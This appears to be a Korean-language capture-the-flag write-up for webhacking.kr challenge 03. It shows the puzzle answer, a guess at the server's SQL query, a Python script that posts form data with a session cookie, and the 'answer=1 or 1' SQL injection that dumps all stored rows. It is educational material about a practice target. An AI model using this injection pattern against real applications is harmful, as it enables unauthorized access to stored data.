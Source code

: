 ================================================================================================================
[webhacking.kr] 03
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="post_data: {answer=1&id=1}",arrowhead="normal"];
        step3 -> step2[label="Error Page",arrowhead="normal"];
        step4 -> step5[label="post_data: {answer=1 or 1&id=1}",arrowhead="normal"];
        step7 -> step6[label="login success",arrowhead="normal"];
    }

|

MISC
================================================================================================================

- 해당 페이지는 퍼즐 형식으로 되어 있는데 정답은 아래와 같음

.. image:: ../../_images/web-03_1.png
        :align: center


- 정답 입력후 gogo 버튼을 클릭하면 다음과 같은 화면이 출력

.. image:: ../../_images/web-03_2.png
        :align: center


|

server -> DB 예측
================================================================================================================

- POST 파라미터: answer, id

.. code-block:: sql

    select id, answer, ip from $table_name where 
    id= $_POST[id] and 
    answer = $_POST[answer]

|

POST Parameter
================================================================================================================

- 임의의 값을 입력하여 출력되는 메시지 확인

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-03/index.php?_1=1&_2=0&_3=1&_4=0&_5=1&_6=0&_7=0&_8=0&_9=0&_10=0&_11=0&_12=1&_13=1&_14=1&_15=0&_16=0&_17=1&_18=0&_19=1&_20=0&_21=1&_22=1&_23=1&_24=1&_25=1&_answer=1010100000011100101011111"
    cookies = {
        "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
    }
    data = {
        "answer": "1",
        "id":"1"
    }
    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content

- 출력 결과를 보면 answer가 같은 값을 입력한 상태에서 id값을 다르게 입력하면 누적형식으로 쌓인 데이터를 확인할 수 있다. 

.. code-block:: html

    <p>name : 1<br>
    answer : 1<br>
    ip : 125.x.x.x<hr><p>
    name : 1<br>
    answer : 1<br>
    ip : 125.x.x.x<hr><p>
    name : 1<br>
    answer : 1<br>
    ip : 125.x.x.x<hr><p>
    name : 33<br>
    answer : 1<br>
    ip : 125.x.x.x<hr><p>
    name : 33<br>
    answer : 1<br>
    ip : 125.x.x.x<hr><p>
    name : 33<br>
    answer : 1||1<br>
    ip : 125.x.x.x<hr>

|

or
================================================================================================================

$_POST[answer]에 참인 값을 or 형식으로 넣어주면 모든 answer 출력 결과를 얻을 수 있다.

.. code-block:: sql
    
    select id, answer, ip from $table_name where 
    id= $_POST[id] and 
    answer = 1 or 1


|